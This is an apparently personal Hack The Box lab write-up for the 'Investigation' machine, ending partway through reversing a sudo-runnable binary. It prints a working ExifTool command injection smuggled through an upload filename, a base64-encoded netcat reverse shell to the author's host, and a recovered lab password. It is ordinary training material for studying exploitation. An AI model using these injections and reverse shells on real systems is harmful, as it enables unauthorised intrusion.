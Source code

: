 # HTB - Investigation
# Start: 28/02/2023
# IP 10.10.11.197

## Info gathering
### Nmap
```
 nmap -sV -sC investigation.htb -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-28 14:52 GMT
Nmap scan report for investigation.htb (10.10.11.197)
Host is up (0.013s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f1e6306aa6ebbcc0d19d4152674c6d9 (RSA)
|   256 274520add2faa73a8373d97c79abf30b (ECDSA)
|_  256 4245eb916e21020617b2748bc5834fe0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://eforenzics.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
6969/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.10)
|_http-server-header: SimpleHTTP/0.6 Python/3.8.10
|_http-title: Directory listing for /
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Interesting:
- Redirect to eforenzics.htb
- secondary http server with directory listing

adding the redirect to host file, no change in nmap

### WebContent
#### http://eforenzics.htb/

##### /service.html
allows for a .jpg file to be uploaded and returns a link to `/analysed_images/`, a sample output is as follows
```
ExifTool Version Number         : 12.37
File Name                       : White-faced Saki Monkey image.jpg
Directory                       : .
File Size                       : 7.4 KiB
File Modification Date/Time     : 2023:02:28 18:43:27+00:00
File Access Date/Time           : 2023:02:28 18:43:27+00:00
File Inode Change Date/Time     : 2023:02:28 18:43:27+00:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Exif Byte Order                 : Little-endian (Intel, II)
Software                        : Google
Exif Version                    : 0220
Exif Image Width                : 275
Exif Image Height               : 183
Image Width                     : 275
Image Height                    : 183
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 275x183
Megapixels                      : 0.050
```
The tool used to generate is listed at the top, ExifTool v12.37
Interesting:
- Exiftool 12.37 is vunerable to command injection < 12.38 (https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)


Other process run:
- gobuster returned nothing interesting
#### SimpleHTTP port 6969
Interesting:
- Contains 2 files, one is empty (analyzed log)
- The other is some sort of message file, using an online .msg reader, there is one zip attachment with a windows log file (.evtx)

### Event Logs
Interesting:
- Domain:EFORENZICS-DI
- accounts: SMorton,AAnderson,Administrator,(a lot)


## Exploiting
its enough to upload one image and save it into burpsuite repeater so you can edit the filename field within the form-data,
to confirm the vulnerability was exploitable i used `filename="echo 'curl 10.10.14.58:8000' | bash |"` which did indeed call back to my host.

if we add any other pipes to the command e.g. > the command will fail to run, however we can pass a b64 encoded command, pipe it to the base64 -d command to decode and pipe the result into bash to run it, which avoids the other pipes breaking it.

```
curl 10.10.14.58:8000/?d=$(rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.58 4444 >/tmp/f)
b64 encoded:
Y3VybCAxMC4xMC4xNC43MDo4MDAwLz9kPSQocm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNzAgNDQ0NCA+L3RtcC9mKQ==

filename="echo 'Y3VybCAxMC4xMC4xNC41ODo4MDAwLz9kPSQocm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNTggNDQ0NCA+L3RtcC9mKQ==' | base64 -d | bash |"

```

```
nc -lvnp 4444                                            
Listening on 0.0.0.0 4444
Connection received on 10.10.11.197 33714
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data


```

We have internal access to the box!
### Host info gathering
Running linpeas first as we are in a linux server

users with console:
```
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
```
```
══╣ Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml
```
```
╔══════════╣ Analyzing Other Interesting Files Files (limit 70)
-rw-r--r-- 1 root root 3771 Feb 25  2020 /etc/skel/.bashrc

```
### Event Logs (part 2)
I missed something important within the event log, i searched for the typical event ID:4624 which is successful login, but i did not check 4625, where we can find someone trying to login with the password as the username! Silly!
Password found `Def@ultf0r3nz!csPa$$`

```
$ su smorton 
Password: Def@ultf0r3nz!csPa$$
whoami
smorton

```
and we're in to a legit user!

### Privilage escalation

running lp again, we find that we can run one file as sudo 
```

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary

```
running the file we just see it exiting... we may have to look a little deeper at this file to see if it is expecting any argument from us

i opened this file in ghidra and IDA free, im still unsure of which one i prefer, have to do more dissassembeling... i looked at the assembly
I'm just gonna paste IDA's output, i can read both just fine but ida spreads the codeblocks+if statements out in a tree like formation vs ghidras big long list


```
cmp     [rbp+var_44], 3
```
IDA free also has a cloud decompiler tool which is nice, but obviously i'd prefer to keep this all on my own machine, but it tells us this results in
```
  if ( argc != 3 )
```
argc is short for arg count, so the number of arguments we have to pass to this is 3, typically linux programs filename is the 1st argument so we have 2 to add.
moving on, we can see another comparison, a strcmp call
```
loc_1481:
mov     rax, [rbp+var_50]
add     rax, 10h
mov     rax, [rax]
lea     rsi, s2         ; "lDnxUysaQn"
mov     rdi, rax        ; s1
call    _strcmp
test    eax, eax
```
so the logic here is kinda backwards i guess, the 3rd argument, [2] as 0 counts as first entry must be this string or the program exits.
```
 if ( strcmp(argv[2], "lDnxUysaQn") )
  {
    puts("Exiting... ");
    exit(0);
  }
```